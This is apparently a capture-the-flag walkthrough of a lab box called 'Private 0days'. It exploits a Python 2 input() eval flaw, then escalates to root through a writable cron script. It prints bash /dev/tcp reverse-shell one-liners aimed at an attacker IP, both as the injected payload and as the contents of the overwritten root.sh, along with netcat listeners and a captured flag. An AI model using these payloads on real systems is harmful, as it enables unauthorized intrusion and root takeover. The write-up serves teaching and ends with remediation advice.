









# Private 0days — Box Walkthrough

Simple writeup of the steps taken to get user and root shells on the target `10.49.149.210` / `10.49.167.220`.

## Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port/service scanning and version detection |
| Firefox | Manually browsing the web service on port 10000 |
| `nc` (netcat) | Sending exploit payload and catching reverse shells |
| `bash` | Reverse shell one-liners, file editing on target |
| Python `input()` flaw | Remote code execution vector (insecure input handling) |
| `crontab` | Privilege escalation via root cron job |

## Methodology

1. **Recon** – Scan the target to find open ports and running services.
2. **Enumeration** – Investigate the unknown service on port 10000, notice the nmap version-scan banner leaks source code of the running Python script.
3. **Vulnerability Identification** – The script uses `input()` insecurely, meaning anything typed in is executed as Python code (acts like `eval`).
4. **Exploitation** – Send a Python payload through the input prompt to spawn a reverse shell.
5. **Foothold** – Catch the shell as user `king`, grab `user.txt`.
6. **Privilege Escalation** – Check `/etc/crontab`, find root executes a writable `root.sh` script every minute. Overwrite it with a reverse shell payload.
7. **Root** – Catch the root shell from the cron job.

---

## Step-by-Step Execution

### 1. Port Scan

```bash
nmap -sV 10.49.149.210
```

Result:
- `22/tcp` open — OpenSSH 7.2p2 (Ubuntu)
- `10000/tcp` open — unrecognized service

Nmap's service-version probe on port 10000 leaked the target's Python source code in its fingerprint output, revealing a script (`exploit.py`) that does:

```python
num_exploits = int(input(' Please enther number of exploits to send??: '))
```

Since this runs under Python 2, `input()` evaluates whatever is typed as raw Python code — a classic RCE bug.



### 2. Manual Verification (Browser)

Visited `http://10.49.167.220:10000/` in Firefox:

```
Private 0days
Please enther number of exploits to send??: Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
  File "<string>", line 1, in <module>
NameError: name 'GET' is not defined
```

This confirms the input is being evaluated as Python — the HTTP `GET` request line was interpreted as code, causing a `NameError`. Good confirmation the field is exploitable.



### 3. Exploitation — Reverse Shell via `nc`

```bash
nc 10.49.167.220 10000
```

At the prompt, sent:

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/192.168.140.215/9999 0>&1"')
```

This forces the target to open a reverse shell back to the attacker machine.



### 4. Catch the Shell

```bash
nc -lvnp 9999
```

Result: connection received, landed in a shell as user `king`.



### 5. Flag & File Enumeration

```bash
ls
cat user.txt
```

Retrieved user flag:
```
cf85ff769cfaaa721758949bf870b019
```

Files found in `king`'s home: `credentials.png`, `exploit.py`, `root.sh`, `run.sh`, `user.txt`



### 6. Privilege Escalation — Cron Job

```bash
cat /etc/crontab
```

Found:
```
* * * * * king  cd /home/king/ && bash run.sh
* * * * * root  cd /home/king/ && bash root.sh
* * * * * root  cd /root/company && bash run.sh
```

`root.sh` in `king`'s home directory runs **every minute as root** — and it's writable by `king`.



### 7. Overwrite `root.sh` with a Reverse Shell

```bash
rm root.sh
echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/192.168.140.215/9999 0>&1"' > /home/king/root.sh
cat root.sh
```





### 8. Catch the Root Shell

```bash
nc -lvnp 9999
```

Within a minute, the cron job executed the malicious `root.sh` as root:

```
connect to [192.168.140.215] from (UNKNOWN) [10.49.167.220] 56268
root@ubuntu:/home/king#
```



Full root access obtained.

---

## Summary

| Stage | Vector | Result |
|-------|--------|--------|
| Initial Access | Insecure Python `input()` → remote code execution | Shell as `king` |
| Privilege Escalation | World-writable `root.sh` executed by root via cron | Root shell |

## Root Cause / Fix Recommendations

- Never use `input()`/`eval()` on Python 2 for untrusted data — use `raw_input()` or sanitize/validate input, or upgrade to Python 3.
- Cron jobs run by root should never call scripts in directories writable by unprivileged users.
- Restrict file permissions on `root.sh` (and its directory) so only root can write to it.
